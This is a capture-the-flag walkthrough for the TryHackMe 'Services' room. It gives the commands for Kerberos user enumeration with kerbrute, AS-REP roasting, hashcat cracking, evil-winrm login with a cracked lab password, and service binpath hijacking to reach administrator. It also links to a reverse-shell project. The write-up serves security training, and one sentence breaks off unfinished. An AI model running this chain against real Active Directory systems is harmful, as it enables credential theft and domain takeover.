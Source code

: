 
![banner](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/60b869f4-3ea0-4594-98c5-06636e1e0b8d)

# Services-THM-Walkthrough

This is the writeup for the Services CTF challenge on TryHackMe!
https://tryhackme.com/room/services

tags: enumerate, hash cracking, exploit, brute-force, kerbrute

Highlight: Enumerating active directory users using kerbrute, capturing a password hash using AS-REP-ROASTING.


## **ENUMERATION**

First let's kick things off with some classic nmap scans to get a lay of the land.
Initial Setup

export IP=10.10.117.221
export myIP=10.13.24.71
 
sudo nmap -v --min-rate 10000 <Target's IP address> -p- | grep open

We can use standard expressionw to efficiently sort nmap results and grab all of the open ports for a script scan.

`cat tmp | sed 's/\// /g' | awk '{print $1}' | tr "\n" ","`
![1](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/6ad9c92d-8bd2-44a0-9e5a-fc7beea1f90b)

We'll follow up now with a full scan:
`sudo nmap -v -sVC -oN nmap.txt <Target's IP address> -p <ports>`

roasting:
smbclient -L //$IP/
smbmap -u 'anonymous' -H $IP

ENUMERATION:
walk the port 80 website. We quickly identify some employee names from the employees listed on the site.

![2](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/6d7f921d-534f-4d0a-a579-cb570525e633)

And here is a naming convention, revealed by the contact email:
![3](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/994b794b-6a50-47e1-b3bf-d04ac846b860)

Using the naming convention from the contact email, we can compile a shortlist now of possible usernames.
![4](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/d6fd88fd-be54-4efa-b96a-006dc9a1f653)

Next, we'll move on to active directory username enumeration.
## **KERBRUTE**

`kerbrute userenum --dc $IP -d services.local users.txt`

We found some valid users!
![5](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/8b76634d-69bc-4aba-a1e9-8ac9310376e6)

AS-REP ROASTING WITH GetNPUsers.py:
`GetNPUsers.py -dc-ip $IP -request 'services.local/' -usersfile users.txt -format hashcat`

![6](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/7632cdf0-fc94-4e3c-a083-f3a2d592afde)
Boom Shack-a-lacka! j.rock hash is revealed!

## **CRACKING THE HASH WITH HASHCAT**
Use hashcat to crack the hash:
`hashcat -m 18200 hash.txt rockyou.txt'

Bingo! We are in business. Let's log in next with evil-winrm with our newly-found creds.
j.rock:Serviceworks1

## **EVIL-WINRM**
`evil-winrm -i $IP -u j.rock -p Serviceworks1`

## **LOCAL ENUMERATION**
`whoami /all`

We see that j.rock is in the 

Next, let's check services:

`services`
![7](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/7f82a997-9476-47a3-af3a-910d4bf1479d)


Our privesc path forward will be binpath hijacking with the ADWS service. 

build a revshell exe binary with this github:
https://github.com/dev-frog/C-Reverse-Shell

## **BINPATH HIJACKING**
`sc.exe config ADWS binpath="net localgroup administrators j.rock /add"`
start and stop the service
log out/in

CHANGE THE ADMIN PASSWORD
net user administrator hellothisisatest123!

log out and back in with admin 
![8](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/52b256ff-1582-4ca6-bb24-61959a69ebc9)

grab the root flag!
![9](https://github.com/CTF-Walkthroughs/Services-THM-Walkthrough/assets/97861439/8577bce9-6fcf-4975-83b8-dce228acc582)


